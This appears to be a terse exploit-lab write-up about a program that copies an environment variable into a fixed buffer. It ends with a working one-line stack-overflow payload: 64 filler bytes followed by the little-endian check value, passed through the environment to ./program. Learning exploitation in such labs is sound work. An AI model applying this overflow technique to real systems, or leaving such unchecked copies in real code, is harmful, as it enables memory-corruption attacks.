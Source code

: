 the value taken from environment variable is copyed into the buffer

it is check with 0x0d0a090a 

exp=$(python3 -c 'print("A"*64 + chr(0x0a) + chr(0x09) + chr(0x0a) + chr(0x0d))') ./program


